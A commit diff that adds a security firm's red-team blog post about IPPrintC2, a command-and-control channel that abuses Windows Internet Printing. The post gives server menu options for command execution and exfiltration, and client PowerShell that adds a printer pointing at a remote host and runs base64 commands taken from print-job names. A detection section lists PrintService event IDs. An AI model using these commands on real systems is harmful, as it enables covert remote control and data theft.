

Before and after one commit to Diverto/diverto.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
add new blog post

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -100,7 +100,10 @@
   goran:
     display_name: Goran Martinic
     gravatar: 21319cc053883e30af00e312a17e5bbb
-  Ivan:
+  ivanr:
+    display_name: Ivan
+    gravatar: 5c0d287b1beb5d50eb666b158cd6878b
+  ivan:
     display_name: Ivan Zelic
     gravatar: 9cc12a0deb5687eff6c4537decba5acd
   antonio:
--- /dev/null
+++ b/_posts/2024-05-03-MS-Windows-Printing-C2.md
@@ -0,0 +1,255 @@
+---
+layout: post
+title: Abusing MS Windows printing for C2 communication
+date: 2024-05-03
+author: ivanr
+categories: [offensive, windows, attack, redteaming]
+category: offensive, windows, attack, redteaming
+color: blue
+tags: [offensive, windows, attack, redteaming, printing]
+otherLanguages:
+- locale: hr
+  path: /hr/blog/2024-05-03-MS-Windows-Printing-C2
+- locale: sl
+  path: /sl/blog/2024-05-03-MS-Windows-Printing-C2
+---
+
+Printing systems are an often overlooked target for attackers looking to establish command and control (C2) channels on a victim's network. An attacker can abuse the operating system's printing system to add and remove printers and create and manipulate printing jobs to achieve full C2 communication. We have developed a complete proof of concept of such a solution that we have successfully tested in real-world red teaming exercises. By understanding the approach taken in this specific abuse of printing systems, we can take steps to secure them and prevent them from being exploited by malicious actors.
+
+### Background story
+The idea was to create a basic C2 for engagements using built-in Windows functionalities, which can then be used to execute arbitrary commands or load a preferable C2 solution (<https://howto.thec2matrix.com/>).
+
+A feature in Microsoft Windows was used that enables to install of shared printers through Internet Printing Protocol (<https://en.wikipedia.org/wiki/Internet_Printing_Protocol>).
+Regular users can add a printer without administrative privileges as long there is no driver installation, so usage of existing drivers was mandatory. A default "Microsoft Print to PDF" driver was used.
+
+The commands that will be executed are sent from the C2 Internet Printing server to the printer's document queue as base64-encoded document names. With basic PowerShell, clients can then obtain these document names from the queue and execute commands on themselves. Also, clients can print documents to this printer that will be saved to a file on the C2 server which is useful to fetch results from executed commands or to exfiltrate documents. An additional plus was that adding a printer shared on the Internet passed through a couple of web proxy solutions commonly used in enterprises. Tested on Windows Server 2019 and Windows 10 / 11.
+
+### Server
+Internet Information Services, Windows Print Services, Print Server and Internet Printing are required to set up a C2 server. Anonymous authentication is enabled on Internet Information Services so clients can obtain the document queue without authentication and the owner of print jobs is the IUSR user account. The server also installs the shared printer for itself and uses it to submit jobs to its print queue, otherwise, the document owner would not be the IUSR user and clients would not be able to obtain the document name from the queue.
+
+The installation script is provided in this repository and should work. Check if you can access your printer to make sure everything went well:
+```
+http(s)://<IP or DNS>/printers/
+http(s)://<IP or DNS>/printers/<printername>/.printer
+```
+Once all is set up, run the IPPrintC2.ps1 and enter commands that you would like to execute on the client through the document name. The document name has its length limitations, so if the length of the base64 encoded command in the document name is larger than 255 characters, it gets split to several documents in the print queue. This is handled by the IPPrintC2 script while the concatenation is handled by the client.
+
+```
+PS C:\Users\administrator\Desktop> .\IPPrintC2.ps1
+IPPrint C2 Server
+1. Select the default C2 printer.
+2. Enter the command to execute on the client through the document name.
+3. Enter the path of the PowerShell script you would like to execute.
+4. Exfiltrate remote documents.
+5. Read IIS logs.
+6. Clear the print queue.
+7. Kill all clients.
+8. Quit.
+What do you want to do?: 2
+To print output of multiple commands, use this: [scriptblock]$x={whoami;hostname;ipconfig};$x.invoke()
+Enter commands you wish to execute: [scriptblock]$x={whoami /all;hostname};$x.invoke()
+```
+You can also load PowerShell scripts. Keep the scripts simple as they may take a while to get split and sent to the document queue. Also, the scripts are one-off since the print queue eventually gets cleared and the character limit is 32767.
+
+#### OpSec
+* Be sure to use the whitelist approach for the network segments you are targeting, otherwise anyone can access your print queue.
+* It is recommended to set up SSL for obvious reasons. The easiest way to setup SSL:
+    * Setup / generate a DNS record for your VM
+    * <https://certifytheweb.com/> can be used to automate CSR and installation
+    * Make sure to edit site bindings under IIS to enable HTTPS and disable HTTP
+        * <https://docs.microsoft.com/en-us/iis/manage/configuring-security/how-to-set-up-ssl-on-iis>
+
+
+### Client
+To execute commands on the client, the addition of a printer and a persistent job to obtain and execute commands is needed. Examples:
+
+```
+PS C:\Users\regular> Add-Printer XPS -PortName https://somewhere.on.azure.com/printers/af/.printer -DriverName "Microsoft Print To PDF"
+
+PS C:\Users\regular> Get-Printer XPS |fl
+
+
+Name                         : XPS
+ComputerName                 :
+Type                         : Local
+ShareName                    :
+PortName                     : https://somewhere.on.azure.com/printers/af/.printer
+DriverName                   : Microsoft Print To PDF
+Location                     :
+Comment                      :
+SeparatorPageFile            :
+PrintProcessor               : winprint
+Datatype                     : RAW
+Shared                       : False
+Published                    : False
+DeviceType                   : Print
+PermissionSDDL               :
+RenderingMode                :
+KeepPrintedJobs              : False
+Priority                     : 1
+DefaultJobPriority           : 0
+StartTime                    : 0
+UntilTime                    : 0
+PrinterStatus                : Normal
+JobCount                     : 0
+DisableBranchOfficeLogging   :
+BranchOfficeOfflineLogSizeMB :
+WorkflowPolicy               :
+
+PS C:\Users\regular> ((get-printjob XPS).documentname -join "")
+WwBzAGMAcgBpAHAAdABiAGwAbwBjAGsAXQAkAHgAPQB7AHcAaABvAGEAbQBpACAALwBhAGwAbAA7AGgAbwBzAHQAbgBhAG0AZQB9ADsAJAB4AC4AaQBuAHYAbwBrAGUAKAApAA==
+
+PS C:\Users\regular> powershell -enc ((get-printjob XPS).documentname -join "")
+
+USER INFORMATION
+----------------
+
+User Name               SID
+======================= ==============================================
+desktop-printingfun\regular S-1-5-21-1829223926-2430627930-1039442773-1002
+
+
+GROUP INFORMATION
+-----------------
+
+Group Name                             Type             SID          Attributes
+====================================== ================ ============ ==================================================
+Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
+BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
+BUILTIN\Performance Log Users          Alias            S-1-5-32-559 Mandatory group, Enabled by default, Enabled group
+NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
+CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
+NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
+NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
+NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
+LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
+NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
+Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
+
+
+PRIVILEGES INFORMATION
+----------------------
+
+Privilege Name                Description                          State
+============================= ==================================== ========
+SeShutdownPrivilege           Shut down the system                 Disabled
+SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
+SeUndockPrivilege             Remove computer from docking station Disabled
+SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
+SeTimeZonePrivilege           Change the time zone                 Disabled
+
+DESKTOP-PRINTINGFUN
+```
+Several payloads are available in the repository.
+
+
+### Detection
+As always, the best way is to centrally monitor the logs of the infrastructure on your Security Operations Center / Security Information and Event Management solutions and use command-line logging / PowerShell Transcription.
+
+By default, printer installation is not logged in the Event Viewer, but this can be enabled:
+* Event Viewer -> Application and Services Logs -> Microsoft -> Windows -> PrintService, right-click and enable the Operational log
+    * <https://social.technet.microsoft.com/Forums/windowsserver/en-US/8e7399f6-ffdc-48d6-927b-f0beebd4c7f0/enabling-quotprint-historyquot-through-group-policy?forum=winserverprint>
+
+With Print Service Operational log enabled you can monitor the installation of printers and additional information with Event ID's 300 and 307.
+
+```
+Log Name:      Microsoft-Windows-PrintService/Operational
+Source:        Microsoft-Windows-PrintService
+Date:          6/28/2022 9:15:42 AM
+Event ID:      300
+Task Category: Adding a printer
+Level:         Information
+Keywords:      Classic Spooler Event,Printer
+User:          DESKTOP-PRINTINGFUN\regular
+Computer:      DESKTOP-PRINTINGFUN
+Description:
+Printer XPS was created. No user action is required.
+Event Xml:
+<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
+  <System>
+    <Provider Name="Microsoft-Windows-PrintService" Guid="{747ef6fd-e535-4d16-b510-42c90f6873a1}" />
+    <EventID>300</EventID>
+    <Version>0</Version>
+    <Level>4</Level>
+    <Task>4</Task>
+    <Opcode>11</Opcode>
+    <Keywords>0x4000000000000820</Keywords>
+    <TimeCreated SystemTime="2022-06-28T07:15:42.7786608Z" />
+    <EventRecordID>6</EventRecordID>
+    <Correlation />
+    <Execution ProcessID="2512" ThreadID="2824" />
+    <Channel>Microsoft-Windows-PrintService/Operational</Channel>
+    <Computer>DESKTOP-PRINTINGFUN</Computer>
+    <Security UserID="S-1-5-21-1829223926-2430127930-1039111773-1002" />
+  </System>
+  <UserData>
+    <PrinterCreated xmlns="http://manifests.microsoft.com/win/2005/08/windows/printing/spooler/core/events">
+      <Param1>XPS</Param1>
+    </PrinterCreated>
+  </UserData>
+</Event>
+```
+
+```
+Log Name:      Microsoft-Windows-PrintService/Operational
+Source:        Microsoft-Windows-PrintService
+Date:          6/28/2022 11:15:16 AM
+Event ID:      307
+Task Category: Printing a document
+Level:         Information
+Keywords:      Classic Spooler Event,Document Print Job
+User:          DESKTOP-PRINTINGFUN\regular
+Computer:      DESKTOP-PRINTINGFUN
+Description:
+Document 4, Print Document owned by regular on \\DESKTOP-PRINTINGFUN was printed on XPS through port https://somewhere.on.azure.com/printers/printers/af/.printer.  Size in bytes: 69009. Pages printed: 1. No user action is required.
+Event Xml:
+<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
+  <System>
+    <Provider Name="Microsoft-Windows-PrintService" Guid="{747ef6fd-e535-4d16-b510-42c90f6873a1}" />
+    <EventID>307</EventID>
+    <Version>0</Version>
+    <Level>4</Level>
+    <Task>26</Task>
+    <Opcode>11</Opcode>
+    <Keywords>0x4000000000000840</Keywords>
+    <TimeCreated SystemTime="2022-06-28T09:15:16.1668381Z" />
+    <EventRecordID>97</EventRecordID>
+    <Correlation />
+    <Execution ProcessID="2512" ThreadID="1848" />
+    <Channel>Microsoft-Windows-PrintService/Operational</Channel>
+    <Computer>DESKTOP-PRINTINGFUN</Computer>
+    <Security UserID="S-1-5-21-1829223926-2430127930-1039111773-1002" />
+  </System>
+  <UserData>
+    <DocumentPrinted xmlns="http://manifests.microsoft.com/win/2005/08/windows/printing/spooler/core/events">
+      <Param1>4</Param1>
+      <Param2>Print Document</Param2>
+      <Param3>regular</Param3>
+      <Param4>\\DESKTOP-PRINTINGFUN</Param4>
+      <Param5>XPS</Param5>
+      <Param6>https://somewhere.on.azure.com/printers/af/.printer</Param6>
+      <Param7>69009</Param7>
+      <Param8>1</Param8>
+    </DocumentPrinted>
+  </UserData>
+</Event>
+```
+
+### Files
+* Install/InstallScript.ps1 - PowerShell script that installs the prerequisites. You should set up SSL yourself
+* Server/IPPrintC2.ps1 - PowerShell script for IPPrintC2 that you run on the server hosting Print Services
+* Payloads/payloads.txt - basic list of payloads to get started
+
+### Notes
+* The C2 currently works as one-to-all. You can set up additional printers on the C2 server, modify the IPPrintC2.ps1 script, and run multiple instances
+* Exfiltration of documents needs improvement as it currently works with ASCII text-based files
+* Automatic cleaning of documents printed by clients requires improvements
+* The IPPrintC2 is provided as-is
+
+In the process of writing this simple C2, it was discovered that a somewhat similar technique was also used by WithSecure and published earlier. Not only that, but the name (PrintC2) also was the same, so it was changed to IPPrintC2. Nevertheless, due to the differences and different initial mindset/purpose we decided to release our work.
+
+### References
+* [https://github.com/Diverto/IPPrintC2](https://github.com/Diverto/IPPrintC2)
+* [https://windows-internals.com/printdemon-cve-2020-1048/](https://windows-internals.com/printdemon-cve-2020-1048/)
+
+Happy printing!
````
